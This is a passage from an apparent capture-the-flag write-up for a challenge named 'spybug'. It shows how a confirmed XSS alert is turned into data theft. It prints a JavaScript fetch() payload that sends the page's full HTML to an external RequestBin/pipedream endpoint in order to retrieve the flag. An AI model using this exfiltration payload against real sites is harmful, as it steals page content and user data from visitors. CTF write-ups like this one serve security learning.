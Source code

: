 <img src="spybug7.png" alt="Alert 1">

Spectacular !! Now we only need to modify our payload for it to get all content of the html page at send it to our self hosted server or maybe [RequestBin](https://requestbin.com). The payload I used:

```js
// change the url of the requestbin
fetch('https://ensei2x093jq8.x.pipedream.net?muneh=' + document.documentElement.innerHTML)
```

Repeat all the steps above against challenge server. We will see the flag in the RequestBin we created.

<img src="spybug8.png" alt="Money">
